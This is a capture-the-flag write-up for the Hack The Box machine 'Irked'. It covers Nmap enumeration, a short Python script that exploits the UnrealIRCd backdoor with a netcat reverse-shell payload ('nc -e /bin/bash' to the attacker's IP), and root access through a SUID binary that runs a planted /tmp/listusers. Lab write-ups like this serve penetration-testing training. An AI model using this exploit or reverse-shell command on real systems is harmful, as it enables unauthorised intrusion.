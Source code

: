# HTB - Irked

#### Ip: 10.10.10.117
#### Name: Irked
#### Rating: Easy

----------------------------------------------------------------------

Irked.png

### Enumeration

Lets begin numerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Irked]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.117        
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-11 09:28 CDT
Nmap scan report for 10.10.10.117
Host is up (0.082s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
55208/tcp open  unknown
65534/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.97 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Irked]
└─$ sudo nmap -sC -sV 10.10.10.117 -p 22,80,111,6697,8067,55208,65534   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-11 09:54 CDT
Nmap scan report for 10.10.10.117
Host is up (0.068s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41651/udp   status
|   100024  1          42879/tcp6  status
|   100024  1          44446/udp6  status
|_  100024  1          55208/tcp   status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
55208/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.83 seconds
```

Ok interesting, looks like we've got irc open on this box and also got the admin email.

Lets use some nmap scripts to further enumerate this:

nmap.png

Nice, looks like this version has a backdoor. Lets see if we can find any exploits out there for this.

### Exploitation

Doing a bit of research I found a couple of public exploits, as well as a Metasploit mudule that looked interesting.

But what caught my eye was this site, walking you through how to exploit the backdoor with your own Python script: https://null-byte.wonderhowto.com/how-to/hack-unrealircd-using-python-socket-programming-0198050/

I'm wanting to get better at Python, so this seemed great. It's also nice that this was written in Python2, so I had to do just a little work to update it to Python3. 

Here's my code:

```python
#!/usr/bin/env python3

import socket

rhost = '10.10.10.117'
rport = 6697
payload = 'nc -e /bin/bash 10.10.14.37 443'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((rhost, rport))
s.recv(1024)
s.send((f'AB; ' + payload + '\n').encode())
s.close()
```

We can run this, and with a listener going on port 443 catch a shell back as user ircd:

python.png

Trying to grab the user.txt flag we get an Permission Denied:

```text
ircd@irked:/home/djmardov$ cat user.txt
cat: user.txt: Permission denied
```
Lets do a bit more enumerating. I'll use LinPEAS to help with this.

### Privilege Escalation

Lets transfer it over to the target using wget and a Python http.server:

wget.png

LinPEAS finds there is a SUID bit set on something called viewuser.

suid.png

Trying to run the file we see it is trying to execute `/tmp/listusers` and it is being executed as root. Interestingly, this file doesn't exist in `/tmp`.

```text
ircd@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-08-11 10:25 (:0)
sh: 1: /tmp/listusers: not found
ircd@irked:/tmp$ ls
linpeas.sh
systemd-private-c8349f01e73441f1b214ff810446ae1b-colord.service-BmFKvk
systemd-private-c8349f01e73441f1b214ff810446ae1b-cups.service-9IDeEm
systemd-private-c8349f01e73441f1b214ff810446ae1b-rtkit-daemon.service-3a32kP
vmware-root
```

Cool, this should be a breeze.

Lets create a file called `listusers` that is just `/bin/bash` and make it world executable. From there all we need to do is execute it, and it will run with root level permissions.

cat.png

Nice!

Lets grab both of the flags now:

flags.png

Thanks for following along!

-Ryan

---------------------------------------------

